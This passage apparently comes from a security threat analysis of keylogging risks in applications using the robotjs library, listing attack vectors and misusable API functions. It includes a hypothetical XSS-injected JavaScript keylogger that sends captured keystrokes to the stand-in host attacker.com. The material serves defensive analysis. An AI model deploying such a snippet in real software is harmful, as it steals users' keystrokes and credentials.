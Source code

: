 The core of this threat lies in an attacker gaining the ability to execute arbitrary code within the context of the application that uses `robotjs`.  Here are several attack vectors:

*   **Cross-Site Scripting (XSS):**  If the application is a web application and is vulnerable to XSS, an attacker could inject JavaScript code that utilizes `robotjs` (if `robotjs` is accessible in the renderer process of an Electron app, for example).  This is a *highly likely* attack vector if `robotjs` is exposed to the renderer.
    *   **Example (Hypothetical Electron App):**
        ```javascript
        // Attacker-injected script via XSS
        const robot = require('robotjs');
        let capturedKeys = "";

        // (Simplified - real-world would be more stealthy)
        document.addEventListener('keydown', (event) => {
            capturedKeys += event.key;
            // Periodically send capturedKeys to attacker's server
            if (capturedKeys.length > 50) {
                fetch('https://attacker.com/log', {
                    method: 'POST',
                    body: capturedKeys
                });
                capturedKeys = "";
            }
        });
        ```

*   **Code Injection:** If the application has vulnerabilities that allow for direct code injection (e.g., through improperly sanitized input that is later `eval`'d or used in a `require` statement), the attacker could directly insert code to misuse `robotjs`. This is less common than XSS in web apps but more likely in other application types.

*   **Dependency Compromise:** If a malicious package is installed as a dependency (either directly or transitively), and that package has access to `robotjs`, it could perform keylogging.  This is a supply chain attack.

*   **Compromised Development Environment:** If an attacker gains access to a developer's machine, they could modify the application's source code to include keylogging functionality.

*   **Malicious Browser Extension (for Electron apps):** If the application is an Electron app, a malicious browser extension with sufficient privileges could potentially interact with the Node.js environment and leverage `robotjs`.

**2.2  `robotjs` API Misuse:**

The threat model correctly identifies the relevant `robotjs` functions:

*   **`keyTap()` and `keyToggle()`:** While primarily intended for *simulating* key presses, these functions could be used in conjunction with OS-level keyboard hooks (which `robotjs` itself doesn't provide) to *detect* key presses.  An attacker would need to combine `robotjs` with another library or native code to achieve this.  This is less direct than using a dedicated keylogging library, but still possible.
*   **`typeString()` and `typeStringDelayed()`:** These are less directly relevant to *capturing* keystrokes.  However, an attacker could use these functions to *inject* keystrokes into other applications, potentially as part of a broader attack.  For example, they could inject commands into a terminal window.
